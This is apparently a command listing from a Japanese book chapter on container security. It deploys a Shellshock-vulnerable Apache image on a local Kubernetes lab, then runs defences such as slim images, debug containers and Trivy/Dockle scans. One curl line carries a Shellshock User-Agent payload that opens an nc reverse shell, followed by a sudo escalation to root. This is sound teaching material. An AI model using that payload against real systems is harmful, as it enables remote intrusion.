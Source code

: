 # ケース1: コンテナの脆弱性を悪用されてしまった

`コンテナイメージのビルド（cve-2014-6271-apache-debian:buster）`
```bash
ls

docker build -t <Docker ID>/cve-2014-6271-apache-debian:buster .
```

`コンテナイメージのアップロード（cve-2014-6271-apache-debian:buster）`
```bash
docker push <Docker ID>/cve-2014-6271-apache-debian:buster
```

`コンテナイメージのビルド（sample-web:case1）`
```bash
ls

docker build -t <Docker ID>/sample-web:case1 .
```

`コンテナイメージのアップロード（sample-web:case1）`
```bash
docker push <Docker ID>/sample-web:case1
```

`PodとServiceのデプロイ`
```bash
kubectl apply -f sample-web.yaml
```

`minikube tunnelコマンドの実行`
```bash
minikube tunnel
```

`PodおよびServiceの状態確認`
```bash
kubectl get all -l app=sample-web
```

`curlコマンドによるアクセス確認`
```bash
curl http://<EXTERNAL-IP>
```

`ターミナル1: ncコマンドの実行`
```bash
nc -nvlp 5050
```

`ターミナル2: curlコマンドによる不正なリクエストの送信`
```bash
curl -H "user-agent: () { :; }; echo; /bin/nc -e /bin/bash <端末のIPアドレス> 5050" http://<EXTERNAL-IP>/cgi-bin/vulnerable
```

`ターミナル1: Podに含まれるコンテナへの侵入`
```bash
hostname

id
```

`ターミナル1: コンテナ内でのrootユーザーへの切り替え`
```bash
sudo su -

id
```

`ターミナル1: rootユーザー権限での操作`
```bash
cd /

touch test

ls /test

apt-get update

apt-get install -y curl

curl -h
```

`通常のhttpdとalpineベースのサイズ比較`
```bash
docker pull httpd:2.4.57

docker pull httpd:2.4.57-alpine

docker images httpd
```

`リストX.1.23. hello-worldコンテナの起動`
```bash
docker run --rm hello-world
```

`コンテナイメージのサイズ確認（マルチステージビルドなし）`
```bash
docker build -t <Docker ID>/sample-web:go-standard -f Dockerfile-standard .

docker images <Docker ID>/sample-web:go-standard
```

`コンテナイメージのサイズ確認（マルチステージビルドあり）`
```bash
docker build -t <Docker ID>/sample-web:go-multi -f Dockerfile-multi .

docker images <Docker ID>/sample-web:go-multi
```

`リポジトリへのコンテナイメージアップロード（sample-web-go）`
```bash
docker push <Docker ID>/sample-web:go-standard

docker push <Docker ID>/sample-web:go-multi
```

`Podのデプロイと確認`
```bash
kubectl apply -f sample-web-go-standard.yaml

kubectl apply -f sample-web-go-multi.yaml

kubectl get pods -l app=sample-web-go
```

`sample-web-go-standardに対するkubectl execの実行`
```bash
kubectl exec -it sample-web-go-standard -- /bin/bash

root@sample-web-go-standard:/go/src/app# ps aux

root@sample-web-go-standard:/go/src/app# exit
```

`sample-web-go-multiに対するkubectl execの実行`
```bash
kubectl exec -it sample-web-go-multi -- /bin/bash
```

`エフェメラルコンテナの使用`
```bash
kubectl debug -it sample-web-go-multi --image=busybox:1.28 --target=web

/ # ps aux

/ # ls /proc/1/root

/ # exit
```

`エフェメラルコンテナの状態確認`
```bash
kubectl describe pod sample-web-go-multi
```


`Trivyのインストール`
```bash
curl -sfL https://raw.githubusercontent.com/aquasecurity/trivy/main/contrib/install.sh | sudo sh -s -- -b /usr/local/bin v0.50.1
```

`Trivyによるコンテナイメージのスキャン（2024年4月時点）`
```bash
trivy image <Docker ID>/sample-web:case1
```

`Dockleのインストール`
```bash
curl -LO https://github.com/goodwithtech/dockle/releases/download/v0.4.14/dockle_0.4.14_Linux-64bit.tar.gz

tar xvf dockle_0.4.14_Linux-64bit.tar.gz

chmod +x ./dockle

sudo mv ./dockle /usr/local/bin/dockle
```

`Dockleによるコンテナイメージのスキャン（2024年4月時点）`
```bash
dockle <Docker ID>/sample-web:case1
```

`検証に使用したリソースの削除`
```bash
kubectl delete pod sample-web \
    sample-web-go-standard \
    sample-web-go-multi

kubectl delete service sample-web
```